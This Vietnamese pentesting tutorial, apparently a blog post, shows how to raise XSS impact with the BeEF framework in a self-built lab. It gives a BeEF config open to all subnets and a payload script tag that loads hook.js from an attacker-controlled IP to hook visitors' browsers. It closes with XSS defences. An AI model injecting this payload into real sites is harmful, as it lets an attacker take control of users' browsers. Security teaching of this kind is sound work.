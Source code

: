 ![](https://images.viblo.asia/4247fc13-98d0-44b0-bbc3-5c8bcbb8df8a.jpg)

Trong quá trình thực hiện kiểm tra bảo mật,  [Cross-site scripting (XSS)](https://owasp.org/www-community/attacks/xss/) có lẽ là một trong những lỗ hổng phổ biến nhất mà chúng ta  gặp phải. Để minh chứng mức độ ảnh hưởng của nó,Pentester thường chèn các script độc hại để website mục tiêu *alert* lên những nội dung chỉ định trước hoặc chuyển hướng và thay đổi giao diện của website. 

Tuy nghiêm trọng là vậy, nhưng XSS lại thường không được đánh giá cao. Trong mắt khách hàng và nhiều người nó vẫn được coi như một lỗ hổng nhỏ, không quá quan trọng. Qua bài viết sau đây, chúng ta sẽ cùng nhau tìm hiểu,nâng cấp mức độ ảnh hưởng của nó với BeEF Framework

# 1. Tổng Quan 

![](https://images.viblo.asia/f4d57ad1-9373-4e76-971d-eb0908ab5604.jpg)

BeEF là viết tắt của Browser Exploitation Framework. Nó là một công cụ kiểm tra thâm nhập tập trung vào trình duyệt web. Người dùng có thể xây dựng các kịch bản tấn công và qua đó đánh giá mức độ bảo mật của một trang web.



**Mô hình mình đưa ra bao gồm 3 thành phần chính**:

+ **Server A**: bị ảnh hưởng bởi lỗ hổng Cross-site scripting (XSS) (*sử dụng Apache và chạy trên EC2 AWS*)
+ **Server B**: Sử dụng BeEF Framework đóng vai trò như một máy chủ khai thác (*xây dựng trên GCP Cloud*).
+ **Client C**: Đóng vai trò như một người dùng thông thường, truy cập vào Server A.



**Kịch bản:** 

`Server A bị ảnh hưởng bởi lỗ hổng Cross-site scripting (XSS), Hacker chèn các đoạn mã độc hại được cung cấp bởi BeEF Framework của Server B để tấn công Client C.`

# 2. Xây dựng môi trường 
**2.1. Server A bị ảnh hưởng bởi Cross-site scripting (XSS)**

**Requirements**
> Operating System: Mac OSX / Linux / Windows.
> 
> Apache or Nginx.

**Cài đặt Apache2**
```bash
sudo apt-get update;sudo apt-get upgrade
sudo apt-get install -y apache2
```

*Để mô phỏng lỗ hổng một cách nhanh chóng nhất, ở đây mình sẽ chèn trực tiếp các đoạn mã độc hại vào index.html của Apache thông qua SSH.*


Payload:  `<script>alert('Test Script')</script>`

**Kết quả :**

![](https://images.viblo.asia/4b9f713a-e93b-49b4-8b33-651cdfbb10f3.jpg)


**2.2. Cài đặt BeEF Framework** (Server B)

**Requirements**
> 
> Operating System: Mac OSX 10.5.0 or higher / modern Linux. Note: Windows is not supported.
> 
> Ruby: 2.5 or newer
> 
> SQLite: 3.x
> 
> Node.js: 10 or newer
> 
> The gems listed in the Gemfile: https://github.com/beefproject/beef/blob/master/Gemfile
> 
> Selenium is required on OSX: brew install selenium-server-standalone (See https://github.com/shvets/selenium)


**Cài đặt Ruby**

```bash
sudo apt-get install software-properties-common
```

```bash
sudo apt-get update
```

```bash
sudo apt-add-repository -y ppa:brightbox/ruby-ng
```
**Cài đặt RVM**

   ```bash 
   sudo apt-add-repository -y ppa:rael-gc/rvm
   ```
   
   ```bash 
   sudo apt-get update;sudo apt-get install rvm
   ```
   
   ```bash 
rvm install "ruby-2.5.3"
echo 'source "/etc/profile.d/rvm.sh"' >> ~/.bashrc    
   ```

**Cài đặt các gói cần thiết khác**

```bash
 sudo add-apt-repository ppa:jonathonf/gcc-9.0
 sudo apt-get update
 sudo apt-get install gcc-9
 sudo apt-get install git curl wget -y
```

**Download and running BeEF Framework**

```bash
git clone https://github.com/beefproject/beef
cd beef
./install 
./beef 
```


*BeEF Framework không cho phép sử dụng với mật khẩu mặc định, để thay đổi điều này, ta tiến hành cấu hình trong config.yaml*

```
    # Credentials to authenticate in BeEF.
    # Used by both the RESTful API and the Admin interface
    credentials:
        user:   "admin"
        passwd: "admin@123"

    # Interface / IP restrictions
    restrictions:
        # subnet of IP addresses that can hook to the framework
        permitted_hooking_subnet: ["0.0.0.0/0", "::/0"]
        # subnet of IP addresses that can connect to the admin UI
        #permitted_ui_subnet: ["127.0.0.1/32", "::1/128"]
        permitted_ui_subnet: ["0.0.0.0/0", "::/0"]
        # slow API calls to 1 every  api_attempt_delay  seconds
        api_attempt_delay: "0.05"

    # HTTP server
    http:
        debug: false #Thin::Logging.debug, very verbose. Prints also full exception stack trace.
        host: "0.0.0.0"
        port: "8080"

```


**Kết quả**

![](https://images.viblo.asia/09c69b59-e140-47a2-9e59-694c9bb262ff.jpg)

> Tips: Nếu sau khi cài đặt thành công, bạn vẫn không thể truy cập vào BeEF Framework thì có thể bạn cần mở port thông qua iptables.
# 3. Proof of concept
**Bước 1**. Tạo mã độc hại bằng BeEF Framework.

BeEF Framework mặc được trang bị một đoạn mã Javascript vô cùng "xịn xò" mang tên hook.js .Bạn có thể tìm thấy nó tại http://you-ip/hook.js 


**Bước 2.** Nhúng mã hook.js vào Server A  

`Payload:  <script src=”http://your-ip/hook.js” type=”text/javascript”></script>`

**Bước 3**. Client C truy cập vào server A và nhanh chóng biến thành Zoombie 

![](https://images.viblo.asia/1bba5740-5d5f-42e1-a4e8-cc73ba6beff2.gif)


# 4. Phòng chống Cross-site scripting
Để giảm thiểu nguy cơ hệ thống của bạn bị ảnh hưởng bởi Cross-site scripting (XSS) ta thực hiện theo 7 bước sau đây: 

> **Bước 1.Đào tạo duy trì nhận thức bảo mật:**
> Để giữ cho ứng dụng web của bạn an toàn, mọi người tham gia xây dựng ứng dụng web phải nhận thức được những rủi ro liên quan đến các lỗ hổng XSS. Bạn nên cung cấp khóa đào tạo bảo mật phù hợp cho tất cả các nhà phát triển, nhân viên QA, DevOps và SysAdmins của mình. 
> 
> **Bước 2. Không tin tưởng bất kỳ đầu vào của người dùng:**
> Coi tất cả những gì người dùng nhập vào là không đáng tin cậy. Bất kỳ đầu vào nào của người dùng đều dẫn đến rủi ro về XSS và cần phải xử lý.
> 
> **Bước 3:  Sử dụng escaping/encoding:**
> Sử dụng kỹ thuật escaping/encoding thích hợp tùy thuộc vào vị trí sử dụng dữ liệu đầu vào của người dùng: escaping HTML, escaping JavaScript, escaping CSS, escaping URL, v.v. Sử dụng thư viện hiện có để escaping, không viết thư của riêng bạn trừ khi thực sự cần thiết.
> 
> **Bước 4: Sanitize HTML**
> Nếu đầu vào của người dùng cần chứa HTML, bạn không thể thực hiện kỹ thuật escaping/encoding nó vì nó sẽ phá vỡ các thẻ hợp lệ. Trong  trường hợp như vậy, hãy sử dụng thư viện đáng tin cậy và đã được xác minh để phân tích cú pháp và làm sạch HTML. Chọn thư viện tùy thuộc vào ngôn ngữ phát triển của bạn, ví dụ: HtmlSanitizer cho .NET hoặc SanifyingHelper cho Ruby on Rails.
> 
> **Bước 5. Đặt cờ HttpOnly:**
> Để giảm thiểu hậu quả của lỗ hổng XSS có thể xảy ra, hãy đặt cờ HttpOnly cho cookie. Nếu bạn làm vậy, những cookie đó sẽ không thể truy cập được qua JavaScript phía máy khách.
> 
> **Bước 6. Sử dụng Content Security Policy (CSP):**
> Để giảm thiểu hậu quả của lỗ hổng XSS có thể xảy ra, hãy sử dụng Content Security Policy (CSP). CSP là một tiêu đề phản hồi HTTP cho phép bạn khai báo các tài nguyên động được phép tải tùy thuộc vào nguồn yêu cầu.
> 
> **Bước 7. Thường xuyên kiểm tra định kỳ bảo mật cho Website**
> 
# 5. Tổng kết
Qua đây chúng ta đã cùng nhau tìm hiểu các kiến thức cơ bản nhất của BeEF Framework. Hi vọng sau bài viết, chúng ta sẽ có cái nhìn đúng đắn hơn về mức độ nghiêm trọng của Cross Site Scripting (XSS). Hẹn gặp lại các bạn trong những bài chia sẻ khác. 

Tham khảo:

https://github.com/rvm/ubuntu_rvm

https://github.com/beefproject/beef/wiki/

https://owasp.org/www-community/attacks/xss/